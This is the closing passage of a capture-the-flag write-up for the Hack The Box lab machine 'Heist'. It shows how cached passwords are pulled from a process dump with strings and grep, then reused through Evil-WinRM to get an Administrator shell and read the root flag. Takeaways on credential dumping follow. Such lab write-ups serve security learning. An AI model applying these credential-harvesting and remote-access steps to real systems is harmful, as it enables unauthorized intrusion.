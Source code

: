 We can simply run `strings` on the dump file and `grep` for the term `password` to see if we can find some cached passwords.

![strings_password](./.images/strings_password.png)

Now that we have an additional pair of credentials we can try to use the same password with the `Administrator` user via `Evil-WinRM` and see if we can get privileged access to the machine.

```
$ evil-winrm -i 10.129.96.157 -u Administrator
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

And there we get the access as root and we find the root flag as well.

## Key Points to Take Away

1. If none of credentials are working to gain access to the machine, then try to enumerate different users on the machine.
2. Use `Evil-WinRM` whenever port 5985 is open.
3. Look for processes that might have cached credentials and try to dump them.

## References

1. [Hack The Box :: Heist](https://app.hackthebox.com/machines/Heist)
2. [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
3. [SysInternal Procdump](https://download.sysinternals.com/files/Procdump.zip)
